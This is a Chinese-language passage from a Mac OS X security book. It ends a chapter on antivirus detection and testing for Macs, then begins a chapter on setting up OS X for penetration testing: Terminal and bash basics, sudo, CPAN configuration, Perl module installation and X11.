- Mac OS 10.2.8/10.3/10.4/10.5
- 基于 Intel 的 Mac（32 位和 64 位），或基于 PowerPC 的 Mac
- 77 MB 空磁盘空间
- 128 MB 内存
- 控制台需要

### 图 4.15 Symantec Endpoint Protection


## 工具与陷阱

Peter Norton 的名字在行业中某些角落依然存在，这带有一种讽刺意味。我们中的有些人足够老，还记得他在 1983 年被《PC杂志》引用说计算机病毒是一个神话。1986 年，他出版了《Peter Norton IBM PC 汇编语言教程》。这种对生活和编程的务实态度显然没有害处。根据 NPD 集团的数据，自 1998 年以来一直是销量最好的 Mac 杀毒软件。

## 产品测试

测试病毒扫描器的检测性能是困难且具有争议的，杀毒软件研究社区中只有少数测试者和机构被认为具备能力。这些包括：

- `AV Comparatives`（`www.av-comparatives.org`）
- `AV-Test.org`（`www.av-test.org`）
- `ICSA Labs`（`www.icsalabs.com`）
- `SC Magazine/West Coast Labs`（`www.westcoastlabs.org`）
- `Virus Bulletin`（`www.virusbullet.com/`）

这种受认可和信任的通常意味着他们可以访问由 `WildList International Organization`（`www.wildlist.org`）收集、测试并认证的病毒库，而较少的测试者可能使用不可接受的方法作为未经验证的样本集。

验证意味着检查被测试的代码是否为恶意的或被正确分类（例如，病毒必须具备复制能力等）。没有验证的测试通常被发现使用了非恶意软件，而是错误使用了损坏或合法的文件。

杀毒软件行业很少允许创建新的恶意软件或病毒代码，即使是为了测试。为了测试启发式分析，实际上不需要任何人创建病毒。

# 第 4 章 恶意软件检测与 Mac

“追溯测试”涉及对一段时间内未更新的扫描器进行测试，并使用自上次更新以来出现的已验证的恶意软件进行检测。因此，测试的是启发式能力，而不是通过特定病毒的特征码检测来检测特定病毒。这避免了为了测试目的而创建新恶意软件的伦理和实际困难，但并不能消除验证样本或使用严谨方法的需求。在过去一年左右，反恶意软件研究社区对全面提高测试标准表现出了极大兴趣。请访问 `www.amti.org` 以跟踪该领域的发展。

遗憾的是，目前还没有多少关于 Mac 杀毒软件（AV）的可靠测试。不过，在不久的将来，我可能会重新关注这一领域（我曾在 20 世纪代测试过 Macintosh 杀毒软件），因为 Mac 恶意软件活动确实在复苏。请关注 `www.macvirus.com` 和 `www.smallblue-greenworld.co.uk` 获取更多信息。

## 总结

在操作系统恶意软件仍然很稀缺的时期，花费这么多时间在恶意软件检测上似乎有些违背常理。然而，我相信犯罪分子对 Mac 用户作为潜在欺诈目标（一种可用于垃圾邮件传播和点击欺诈等目的的机器来源）的兴趣在近期可能会剧增。

遗憾的是，激进的 Mac 粉丝持续坚持“这种事情不会在这里发生”，这在短期内可能会助长这种利用。当然，我可能是完全错的，但我觉得一个特别令人不快的“魔精灵”已经从瓶子里跑出来了。反恶意软件行业对推出 Mac 产品的重新兴趣表明，我并非荒野中的独行之夫。当然，你可能有不同意见。无论如何，我希望这一章至少阐明了一些问题。

### 解决方案快速通道

## 开箱即用安全吗？

- 苹果声称“每一台 Mac 都是安全的——开箱即用——这得益于 Mac OS X 经过验证的基础。”然而，苹果对“安全”一词的理解并不特别针对恶意软件，尽管他们提供的方案通常是非常可靠的。但这并不意味着恶意软件的终结。
- OS X 防火墙虽然易用但功能基础，如果 Mac 恶意软件采取与 PC 僵尸病毒相同的路线，就需要进行大幅调整。否则，将变为学习配置更高级的工具（如 `IPFW`）或使用第三方实用程序。
- 这种假设——在利用 Mac 用户变得有利可图之前，Mac 是安全的——这种假设要比“Mac 永远不可摧毁”的假设要健康得多。然而，出于犯罪目的的 Mac 恶意软件已经存在。

## 反恶意软件技术原理

- 就像如今的恶意软件领域远比病毒和蠕虫复杂一样，杀毒软件也远不止于此。有许多 UNIX 风格的工具在多层 Mac 保护策略中有一席之地，但除了杀毒软件外，用于反恶意软件防御的传统工具很少。
- 如今，商业 Mac 反恶意软件软件包通常也能检测 Windows 恶意软件以及 Mac 恶意软件，但反过来往往不是。并非所有拥有 Mac 产品的厂商都在其他平台的产品中包含默认的 Mac 恶意软件检测。
- 杀毒软件一直都能检测出许多不是病毒的对象，在某些情况下甚至不是恶意的。
- `EICAR` 测试文件不是病毒，但它对于测试配置和确认产品实际上处于激活状态很有用。它经常被误用，尤其是在测试中。
- 特征码检测是杀毒扫描器使用的技术之一。主流方法包括特征码、通用特征码、启发式分析、行为分析和动态分析。

## 反恶意软件产品

- 对 OS X 之前的版本的反恶意软件产品进行了详细讨论，不仅是为了历史的完整性，还因为仍有太多令人感到不安的网站在推荐已不再相关的产品。某些产品可能与过时的系统仍有轻微关联，或者此类系统的用户仍需要被更充分地告知这些产品的适用性。
- 厂商社区对推出 Mac 特定的产品的兴趣日益增加，但即使是不打算推出此类产品的厂商，现在也应该考虑他们的产品是否需要改进恶意软件检测。
- 与早期操作系统版本用户可用的免费产品数量相比，OS X 用户可用的产品数量少得惊人。`ClamAV` 在反恶意软件世界中确实有一席之地，但 `clamXav` 在实现上存在一些问题，使其难以推荐。

## 产品测试

- 测试病毒扫描器的检测性能是困难且具有争议的，但研究社区内确实有一些被认为是通常胜任的资源。


- 反恶意软件测试标准组织（Anti-Malware Testing Standards Organization）的成立，表达了研究社区（包括著名的测试组织和厂商）提高测试标准的决心。

- 目前还没有多少关于 Mac 反恶意软件的可靠测试。不过，在不久的将来可能会有进展。请访问 `www.macvirus.com` 和 `www.smallblue-greenworld.co.uk` 获取更多信息。

### 常见问题

**Q: 为什么你谈到“所谓的”特征码扫描（signature scanning）？**

**A:** 特征码扫描指的是相当直接的模式匹配算法，搜索扫描器数据库中每个病毒或变种的特征字节序列（一个字符串），但这种序列在未受感染的文件中可能随机出现。一些杀毒研究人员试图劝阻人们使用特征码扫描，转而使用“搜索字符串”（search string）或“扫描字符串”（scan string），但当每家杀毒公司都惯常使用这个表达时，这似乎毫无意义。使用“特征码扫描”一词的真正困难在于它：

- 它延续了它是杀毒扫描器执行的唯一检测方式的迷思。事实上，许多病毒无法通过仅搜索静态字符串来识别。
- 它暗示每个病毒中都有一个被所有扫描器识别的单一字节序列。事实上，不同的扫描器可能会使用非常不同的搜索字符串（和算法）来检测同一种病毒。

**Q: 为什么 Jotti 和 VirusTotal 似乎不报告 Mac 恶意软件？**

**A:** 严格来说，像 `VirusTotal` 这样的网站并不检测任何东西。它们只是报告某些扫描器的结果。有几个扫描器应该检测 Mac 恶意软件，或者可以配置进行检测，因为厂商拥有 Mac 产品。`VirusBarrier` 不是此类网站通常使用的扫描器之一。`Inte` 历史悠久，但略显过时。`ClamAV` 通常是所使用的产品之一，但通常不检测 Mac 特有的恶意软件。

**Q: 如果所有商用的 Mac 杀毒都能检测 Windows 恶意软件，Windows 产品不是也应该检测 Mac 恶意软件吗？**

**A:** 我完全同意。而且预计随着更多针对 OS X 的恶意软件出现，Windows 产品将检测到它们，即使厂商没有 Mac 特定的产品。显然，对于一个无法检测 Mac 和 Unix/Linux 恶意软件达到像 Windows 版本那样的网关产品，进行防御是非常困难的。首先，假设一个受保护的组织不需要为其雇佣的任何 Mac 用户提供保护，是不负责任的。

## 简介

渗透测试（pen test）是一种经过客户授权的、对计算机系统或网络进行的攻击模拟。其目的是确定网络漏洞并在发生破坏之前进行修复。在完成此类测试后，测试人员将生成一份报告，列出弱点并提供详细的修复程序。在某些情况下，渗透测试团队还会协助防御性修复工作，但大多数情况下，这种类型的团队专注于进攻性程序。一旦网络得到修复（或打上补丁），就会定期重复进行测试，以确保网络保持安全。渗透测试是一项利润丰厚、光荣且极具技术性的职业。相比之下，恶意黑客会对计算机系统和网络进行未经授权的攻击。他们不会产生报告，除非目标是封锁其他攻击者，否则不会进行防御性补丁。尽管恶意黑客具有高度技术性且可能非常有利，但它也是高度违法的。

恶意黑客和渗透测试者有很多共同点。尽管他们的动机不同，但行动几乎完全相同。毕竟，渗透测试的目的是通过模拟真实攻击的所有排列来确保网络安全。如果一个家庭报警系统无法防范入犯的每种策略，它就是无效的，网络安全也是如此。因此，恶意黑客和渗透测试者之间存在着共生关系。他们关系如此紧密，通常只通过“帽子”的颜色来区分：白帽和黑帽。为了保持技能，黑帽和白帽参加相同的会议，经常出入相同的数字聚会场所，练习相同的数字恶作剧。他们在在线线下聚集，使用带有缩写和技术术语的相同语言，像小孩子交易宝可梦卡一样交易代码（计算机程序）。尽管好莱坞描绘了黑客的特定形象，但行业之外的人很难区分大型安全中心的好人与坏人。世界上许多最优秀、最聪明的黑客在现实生活中（IRL）都是非常普通的人。

白帽和黑帽对自己的技能、能力以及软件工具箱的内容和功能感到非常自豪。这些工具箱包含非常特定的程序，当正确运行时会产生有效的结果。这看起来似乎相当简单，但对于哪种工具是工作的最佳工具，存在大量的争议（以及个人偏好）。在这个行业中，几乎不存在适用于任何工作的“最佳工具”。例如，通常有很多工具可以执行端口扫描，其中 `nmap` 被认为是最好的工具之一。使用 `nmap` 完成完美的渗透测试是完全可能的，大多数自动化工具都是这样做的。关键点在于“人人有异”，这对于你决定使用的操作系统（OS）来说无疑如此。虽然黑客社区对于哪种操作系统是最好的存在很大争论，但简单的事实是并没有最好的操作系统，只有针对特定任务的优选操作系统。一个熟练的渗透测试者或黑客可以在任何环境下操作，无论使用什么操作系统。最好的渗透测试平台变成了一个个人偏好的问题。Mac OS X 是极极的选择，因为它稳健地、被行业认可地使用了底层的基于伯克利软件分发版（BSD）的（UNIX）操作系统。尽管许多渗透测试人员使用基于 Windows 的系统，但可以与大多数 UNIX 操作系统兼容的标准工具（如 `sed`、`awk`、`PERL` 等）已成为行业内的“必备项”，迫使 Windows 用户为几乎所有这些工具寻找（或编写）替代品。

除了操作系统自带的实用程序外，特别是 Linux 社区，一直致力于并创建了数量令人惊叹的 UNIX 软件。大多数此类软件，OS X 用户都可以访问，尽管其中某些软件需要移植或转换为 OS X。

本章的目的是揭示如何将 OS X 作为渗透测试的平台。本讨论将主要关注安装许多流行的渗透测试工具，而不是渗透测试期间实际使用的技术和过程。我们将从讨论 Darwin（Mac OS X 操作系统的内核）开始本章，并为在 Mac OS X 上安装开源工具铺平道路。我们将讨论 Mac OS X 命令行 shell 和 Terminal 应用程序、Apple 开发者工具以及 Windows 环境。接下来，我们将运行软件或将软件移植到 OS X 平台的方法，即使用直接编译、DarwinPorts 和 Fink。我们还将查看从 `www.insecure.org/tools.html` 获取的“前 75 个安全工具”。该列表已成为行业标准的必备安全工具列表，其中许多工具将在 Mac OS X 上运行或已被移植到该系统。接下来，我们将讨论几款必备工具：`Ethereal` 和 `Nessus`，描述它们各自原生安装的过程，以及 `Virtual PC`（它可以让 Mac 拥有完整的 Windows 和 Linux 软件库）。

# OS X 命令行 shell

我们很快就会开始讨论更有趣的 Mac 黑客工具，但讨论 Mac 命令行界面并安装在 OS X 上编译非原生程序所需的基础实用程序是至关重要的。如果你从未接触过 Mac OS X 的这一面，请做好准备。你可能不会看到太多在 OS X 中习惯的精美图形，通往真正的 Mac 启示之路在于偶尔放弃鼠标。如图 5.1 所示，命令行 shell 完全是基于文本的。这个界面对于许多“点击式用户”来说可能很陌生，但它能够访问 Mac 强大的核心和灵魂——BSD 子系统。

BSD 子系统在标准的 OS X 安装期间默认安装。在安装子系统后，你应该在硬盘的 `/Library/Receipts` 目录下看到一个名为 `BSD.pkg` 的文件。如果你执行了自定义安装并跳过了 BSD 子系统的安装，或者 Receipts 目录缺少 BSD 的收据，你需要在使用命令行 shell 之前从 OS X 安装介质安装它。按照以下步骤安装 BSD 子系统：

- 插入 Mac OS X CD 或 DVD。
- 双击安装盘根目录下的 `Install OS X` 图标。
- 点击重启继续安装。
- 系统重启后，按照提示进入到安装程序的安装类型界面。
- 点击自定义（Customize）。
- 选择 BSD 子系统选项。
- 按照提示完成安装。

# Mac OS X 树

我们将很快开始讨论更有趣的 Mac 黑客工具，但讨论 Mac 命令行界面并安装在 OS X 上编译非原生程序所需的基础实用程序是至关重要的。如果你从未接触过 Mac OS X 的这一面，请做好准备。你可能不会看到太多在 OS X 中习惯的精美图形，通往真正的 Mac 启示之路在于偶尔放弃鼠标。如图 5.1 所示，命令行 shell 完全是基于文本的。这个界面对于许多“点击式用户”来说可能很陌生，但它能够访问 Mac 强大的核心和灵魂——BSD 子系统。

BSD 子系统包含数百个程序和服务，其中最常用的程序之一是 `Terminal`，它可以在 Finder 的“应用程序 | 工具”文件夹中找到。双击此图标将启动 `Terminal` 程序。启动时，`Terminal` 程序将显示最后登录的日期、时间、终端位置、当前工作目录以及 `$` 提示符。运行 `Terminal` 窗口是一个 UNIX 命令行或 shell（在 OS X 10.4 下是 `bash` shell）。

某些设计考虑也来自卡内基梅隆大学的 `MACH OS`，但 Mac OS X 的内核通常被称为 `Darwin`。`Darwin` 可以作为一个独立的（基于文本的）操作系统运行，但 OS X 增加了高级功能，如 `Quartz Extreme`（用于 2D 图形渲染）、`OpenGL`（用于 3D 图形渲染）和 `QuickTime` 多媒体架构，从而创建一个真正强大、独特且高效的操作系统。

虽然 OS X 自带了多种 shell 接口，包括 C shell (`csh`)、Z shell (`zsh`) 以及广受欢迎的 GNU Bourne-Again SHell (`bash`)，但这些 shell 的工作方式非常相似；它们都接受用户输入的命令，并向用户显示这些命令的结果。

尽管终端（`Terminal`）窗口看起来可能非常陌生，但它实际上不过是一个通往 OS X 命令的标准 UNIX 接口。例如，在终端窗口中运行 `open /Applications/TextEdit.app/` 会启动文本编辑程序。虽然该命令是在终端窗口内部运行的，但 `TextEdit` 的运行方式就像从程序坞（Dock）或访达（Finder）启动一样。



# 地下笔记

## Bash 自动补全

`bash` shell 有许多实用的功能，但自动补全可能是最受欢迎的功能之一。自动补全通过 `Tab` 键触发。按下 `Tab` 键后，自动补全将尝试完成你开始输入的文本。如果你输入的字母足够具体，自动补全将为你完成命令输入。否则，如果你输入的字母不够具体，每次按下 `Tab` 键时，自动补全都会为该命令提供建议。例如，为了快速输入进入 `/Applications/TextEdit.app/` 的命令，输入 `/App` 然后按 `Tab` 补全 `/Applications` 目录的名字。由于这是一个目录，自动补全将完成目录名称的输入并在名称后加上斜杠。接下来，输入 `Text` 并按 `Tab` 补全 `TextEdit.app` 目录的名字。只需按回车键即可执行命令。在这个示例中，执行命令所需的按键次数减少了一半。

大多数 UNIX 用户都熟悉熟悉的 `$` 提示符，这表明 shell 以标准用户的身份登录。默认情况下，shell 以运行启动终端程序的用户的权限登录，在本例中为 `johnnylong` 用户。绝大多数命令都可以作为标准用户运行，但某些命令（尤其是系统管理命令）需要更高级别的访问权限。这是通过使用 root 账户（或超级用户账户）来处理。与大多数 UNIX 版本一样，Mac OS X 都有一个内置的 root 用户，可以通过多种方式访问。


通常，使用 `su` 命令来调用 root 级 shell，首次使用 Mac 的用户尝试 `su` 到 root 用户并不罕见，但 OS X 并没有自带已启用的 root 用户。

虽然可以使用 `sudo` 命令启用 root 用户并设置 root 密码，但这通常是不受欢迎的，而且没有必要。OS X 上的大多数系统管理功能可以通过 `sudo` 命令（或访问内置的 OS X 配置程序，如系统偏好设置）完成，并且可以通过 `sudo su` 或 `sudo bash` 命令生成 root shell，而无需实际启用 root 用户账户。通用的安全做法是尽可能少使用启用账户，尽管 OS X 的安全机制非常稳固，但最好不要自作性命。让 root 用户保持禁用状态，并尽可能习惯使用 `sudo`！

一旦终端程序启动，花点时间享受你的极客范儿！你现在正坐在真实的 Mac OS X 驱动程序的 shell 中，与 Mac 的 BSD UNIX 风格 shell 交互。即使是像处理文本文件这样平凡的任务，在 shell 中执行时也会焕发出全新的活力。任何像样的 Mac 黑客都拥有 shell 技能，而这就是魔法发生的地方。花时间学习 shell 将最终转化为生产力的提高，并让你体会资深 UNIX 老兵多年来推崇不已的境界。虽然我们无法在本章中塞进一个完善的 shell 教程，但任何 UNIX 籍至少有一个章节介绍基础 shell 的用法。Mac OS X 的帮助系统包含了一些关于 BSD 子系统的基本信息（尝试在 Mac 帮助中搜索“BSD”或“UNIX”），但 OS X 还通过 `man`（manual）命令行程序包含了标准化的 UNIX 手册。RTFM（“Read The Friggin’ Manual”）术语中的“M”很可能指的是 UNIX 手册程序，RTFM 对新手 UNIX 用户来说是一个非常好的建议。例如，如果不熟悉 UNIX shell，可以通过发布 `man` 命令查看其 man 页。`man` 程序本身也有自己的 man 页，可以通过 `man` 命令访问。无论如何，在进入更高级的话题之前，花些时间熟悉 Mac 的命令 shell。

# 编译端口开源软件

许多资深 Mac 用户非常喜欢 OS X 流畅界面的外观和感受。该界面直观、整洁，一旦掌握，会让生活变得简单得多。然而，尽管狂信者们这么说，世界并不是绕着苹果转的。


并不是每个软件开发者都编写苹果特定的软件，但大多数开发者都在 GNU 通用公共许可证下编写免费分发的开源软件。这些软件大部分为 UNIX 平台编写，在大多数情况下，得益于其 UNIX BSD 根源，这些软件可以在 Mac OS 下安装和运行。大多数情况下，这些软件不会具有原生 OS X 那种流畅的外观和感受，但许多技术用户执行的数百个特定任务是具备这些特性的。

安装完成后，多个工具将在各个目录中可用：

- `Developer Tools`（开发者工具）目录包含许多 OS X 特有的命令行工具，例如 `MyMac`（一个保留元数据和资源分叉的 Mac 文件移动工具）以及可以通过 `man` 命令查看的文档。
- `Developer Applications`（开发者应用程序）目录包含许多用于程序开发、性能监控等的图形化工具。
- `/usr/bin` 和 `/usr/sbin` 目录包含了许多 BSD 子系统安装时未包含的额外程序，包括我们将用于编译 C 程序的 `gcc` 编译器。

C 编译器（位于 `/usr/bin` 目录中）可以通过执行 `gcc` 命令直接在 shell 中正常运行，因为 `/usr/bin` 目录在默认路径中。

## Perl

尽管 C 是开源软件非常流行的语言，但得益于其极客友好的语法和可移植性，Perl 绝对紧随其后。与严格的编译型语言 C 不同，Perl 不需要编译器，而是需要一个解释器（Perl 可执行程序本身）来将 Perl 源代码转换为可执行指令。关于 Perl 是编译的还是解释的，或者二者兼有，存在一些争议，作者将谦虚地避免陷入这一争论，仅提供“它是两者兼具一点”。可以说，Perl 是流行、强大且可移植的，并包含在 OS X 安装中，允许访问大量用 Perl 编写的软件库。只需在终端提示符处运行 `perl` 后跟脚本名称，即可启动基础的 Perl 脚本。在某些情况下，假设文件权限设置正确且脚本代码指向 Perl 的 `bin` 目录，你可能可以直接从终端启动脚本。基础的 Perl 脚本很好用，但在某些情况下，某些脚本的正常运行可能需要额外的模块或软件组件。Perl 模块可以通过全面 Perl 归档网络（CPAN）获取，可以通过与 OS X Perl 分发包一起安装的 `/usr/bin/cpan` 程序进行交互。

### 地下室笔记

#### 极客警报！

#### 配置 CPAN

首次使用配置 `cpan` 程序有点棘手，但这个过程只需要运行一次。要开始配置 cpan，只需在终端（`Terminal`）中运行 `sudo cpan`。该程序将开始询问你各种问题，例如“你准备好进行手动配置吗？”，随后是一个默认选择，例如 `[yes]`。只需按回车键即可接受默认选择。你会发现自己按了很多次回车，最后进入一系列问题，如果回答正确，将有助于加速所有 CPAN 下载。这一系列问题涉及你的地理位置。第一个问题将从“首先，选择一个附近的大洲和国家”开始，并列出一个列表。选择你的大陆，或离你最近的一个，然后按回车。系统将提示你选择国家。再次选择你的国家或离你最近的。接下来，cpan 将提示你输入一个下载镜像列表。这个选择有点尴尬，取决于你选择的大洲和国家，看起来可能像下面的输出所示。

- (1) `http://archive.progeny.com/CPAN/`
- (2) `http://carroll.cac.psu.edu/pub/CPAN/`
- (3) `http://cpan-du.viaerio.com/pub/CPAN/`
- (4) `http://cpan-sj.viaerio.com/pub/CPAN/`
- (5) `http://cpan.calvin.edu/pub/CPAN/`
- (6) `http://cpan.cs.utah.edu/pub/CPAN/`
- (7) `http://cpan.cse.msu.edu/`
- (8) `ftp://cpan.erlba.net/`
- (9) `ftp://cpan.larian.net/pub/CPAN/`
- (10) `ftp://cpan.mirrors.redwire.net/pub/CPAN/`
- (11) `ftp://cpan.mirrors.td.net/pub/CPAN`
- (12) `ftp://cpan.netnico.net/pub/mirrors/CPAN/`


- (13) `ftp://cpan.pair.com/pub/CPAN/`
- (14) `ftp://cpan.teglelobe.net/pub/CPAN/`
- (15) `ftp://cpan.thepirtroup.com/`
- (16) `ftp://csociety-ftp.ecn.purdue.edu/pub/CPAN`

还有 42 个项目，按空格回车显示它们。

选择你喜欢的任意数量的 URL（通过数字），将它们放在同一行，用空格隔开，例如 `1 4 5` [1 2 3 4 5 6] : []

最终，CPAN 将提示你输入另一个 URL 或按回车退出，此时你需要输入用空格分隔的数字。每个数字将代表 cpan 在（请求时）用于下载软件的特定站点。在上面的示例中，前六个站点都被选中，并按了回车键。再次输入（这次在空行上）将结束选择过程，保存更改并启动 cpan 的配置过程。这个配置过程很麻烦，但请记住，只需要执行一次。一旦 cpan 运行起来，你就可以轻松地使用更大更复杂的 Perl 脚本，而且有大量的免费模块可用。

## 坏掉的键！

使用 cpan 时，你首先发现的现象之一是退格键不起作用。通过安装 `Term::ReadKey` 可以轻松解决。这个模块和 `Term::ReadLine` 将让你访问这个以及像箭头和下方向键等功能。

## 使用 CPAN 的交互模式

Perl 有时会遇到依赖问题。类似于人类的依赖，这意味着脚本急需某些模块。现在，在某些情况下，简单地安装一个特定模块是解决此问题最简单的方法，但在其他情况下，该模块将依赖于其他模块，导致 Linux 式的头疼。幸运的是，CPAN 能够处理模块间的依赖关系并为你解决这些问题，提供一组被称为 bundle（包）的依赖性模块。在大多数情况下，下载和安装一个 bundle 和安装单个模块一样简单。然而，你处理的是 Perl 模块，而不是分发版（模块的特定发布），后者主要供追求最新、最强大且通常不稳定的用户。

## 图 5.3 困惑的 Perl

```
$jpb12:~workbench/Coding johnny$ perl dns-mine.pl
Can't locate SOAP/Lite.pm in @INC: /System/Library/Perl/5.8.6/darwin
--multi-thread-
-2/Library/Perl/5.8.6/Network/Library/Perl/5.8.6/darwin-thread-m
ulti-2/Library/Perl/5.8.6/Network/Library/Perl/5.8.6/darwin-th
read-multi-2/Library/Perl/5.8.6/Network/Library/Perl/5.8.6/darwin-th
/Per/System/Library/Perl/5.8.6/darwin-multi-level /System/Library/Extras/5.8.6/
libary/5.8.6.pm at dns-mine.pl line 11.
BEGIN ---compilation aborted at dns-mine.pl line 11.
$jpb12:~workbench/Coding johnny$
```

让我们看看 `dns-mine.pl` 脚本中的依赖问题，看看如何用 cpan 解决它。首先，我们需要在 cpan 内部搜索以确定这个 `SOAP/Lite.pm` 文件的具体名称。要搜索特定字符串，首先从终端通过 `sudo cpan` 启动 cpan。你会看到一个 `cpan>` 提示符，如图 5.4 所示。

## 图 5.4 CPAN 终端

```
Terminal - 77x9
j0pb12:~/workbench/Coding johnnylong$ sudo cpan
Password:
cpan shell -- CPAN exploration and modules installation (v1.7601)
ReadLine support enabled
cpan> 
```

从这里开始，你可以输入会被程序解释的命令。最常用的函数（可以通过在提示符处输入 `help` 来列出其中一些）如表 5.1 所示。

### 表 5.1 常用 CPAN 命令

| 命令 | 参数 | 说明 |
| --- | --- | --- |
| help | | 显示帮助菜单 |
| install | 发行版或包 | 安装发行版或包 |
| force install | 发行版或包 | 强制安装发行版或包 |
| a, b, d, m | | 列出所有作者、包、发行版或模块 |
| a, b, d, m | 单词或表达式 | 在作者、包、发行版或模块中搜索 |
| i | | 列出所有作者、包、发行版和模块 |
| i | 单词或表达式 | 在作者、包、发行版和模块中搜索 |

Perl 耐心地解释说，我们正在运行的脚本依赖于 SOAP，具体说是 `SOAP/Lite.pm`，我们需要搜索 cpan。对于初学者来说，实现此最简单的方法是使用 `i` 命令，它会在 cpan 的作者、包、发行版或模块中搜索特定字符串。例如：

```
cpan> i SOAP
```

奇怪的发行版名称 [SOAP]

```
Module id = SOAP
DESCRIPTION SOAP/Perl language mapping
CPAN_USERID KB (Keith Brown <kbrown@developer.com>)
CPAN_VERSION 0.28
CPAN_FILE K/KB/KBROWN/SOAP-0.28.tar.gz
DSLI_STATUS cmp0 (pre-alpha,mailing-list,perl,object-oriented)
INST_FILE (not installed)
```

这表明 id 为 SOAP 的模块确实存在，但我们的 Perl 脚本的错误信息更具体一些。该脚本需要 SOAP Lite。CPAN 允许我们通过正则表达式扩展搜索。将我们的命令更改为 `i /SOAP/` 将搜索所有记录中是否存在“SOAP”一词，提供每条记录的预览，以便我们判断它是否是我们找的记录。虽然返回了一百多条记录，但它们按字母顺序排列，且其中一个以“Module SOAP::Lite”开头的条目通过名称描述了我们寻找的精确模块。为了在唯一且特定的层次结构中正确细分模块，该层次结构涉及双冒号（`::`）的使用。例如，SOAP 是一个巨大的模块库。虽然你可以安装 SOAP 库中的每一个模块，但没有必要，而且会浪费大量的位。相反，只需安装你需要的特定模块，在本例中为 `SOAP::Lite`。要安装 `SOAP::Lite` 模块，只需在 cpan 提示符处输入 `install SOAP::Lite`，并注意处理命令的大小写敏感。在大多数情况下，在接受每个提示的默认选择后，你将获得一个无错误的安装。但在某些情况下，安装可能会因错误失败（特别是在测试阶段），你需要强制安装该模块。这听起来并没有那么糟糕，因为大多数模块在需要强制安装之前一直运行良好。要强制安装 `SOAP::Lite`，只需在 cpan 提示符处输入 `force install SOAP::Lite`。一旦安装完成，再次运行 `install SOAP::Lite` 将检查是否有该模块的更新，如果没有，则会通知你。这突出了 cpan 脚本另一个重要功能：非常方便地更新到最新模块。一旦安装了 `SOAP::Lite`，`dns-mine.pl` 脚本就可以完美运行，尽管这些模块需要强制安装。


## 在命令行模式下使用 CPAN

一旦你熟悉了 cpan 程序的交互模式，你可能想让 cpan 运行得更快，而这通过 cpan 的命令行界面可以轻松实现。你不需要启动 cpan 程序，而是运行 perl 并带有各种参数，来描述你具体想让 cpan 程序为你做些什么。Perl 的 `-M` 和 `-e` 参数允许你指定想要执行的模块和命令。例如，要启动 cpan 的交互模式，你可以在根 shell 中运行 `perl -MCPAN -e shell`，或者在 shell 中运行 `sudo perl -MCPAN -e shell`。此命令指定了你想与 CPAN 模块交互的参数，并且你希望该模块在 CPAN 内部运行 shell 命令。这可以扩展到安装模块或包，例如使用 `perl -MCPAN -e 'install Bundle::CPAN'`，这会安装 cpan 包。当然，如果你想用 `perl -MCPAN -e 'force install Bundle::CPAN'` 强制安装，这种方法同样适用。

Perl 是一门极其灵活的语言，许多程序都是用这种语言编写的。得益于 Mac OS X 内置的 Perl 解释器以及 CPAN 归档和程序，你可以直接在 Mac 上运行绝大多数 Perl 程序，而几乎或完全没有麻烦。

## 安装 XWindows

XWindows (www.x.org) 是一种用于图形界面的标准工具包和协议。XWindows 目前在 Linux 系统上非常流行，像 KDE 和 GNOME 等窗口管理器已成为 Linux 用户的标准用户界面。在 OS X 上安装 XWindows 允许许多此类图形程序在 OS X 下运行。XWindows 可以通过多种方式安装，但最直接的方法之一是安装 Apple 提供的版本的 XWindows。X11（当前协议版本）包含在当前的 Mac OS X 安装媒体中，但并未作为标准 OS X 安装的一部分进行安装。OS CD 上的可选安装程序安装器映像生成了一个可以安装的可选应用程序列表，包括 X11，如图 5.5 所示。

### 图 5.5 Apple 的 X11 安装



一旦安装了 X11，X11 图标会被放在应用程序文件夹中，几个应用程序将安装在 `/usr/X11R6/bin` 中。当运行 X11 程序时，会出现一个 xterm，并且可以从 xterm 运行常见的 XWindows 应用程序（如 `xclock`），如图 5.6 所示。

### 图 5.6 在 OS X 上运行 XWindows 和 xclock

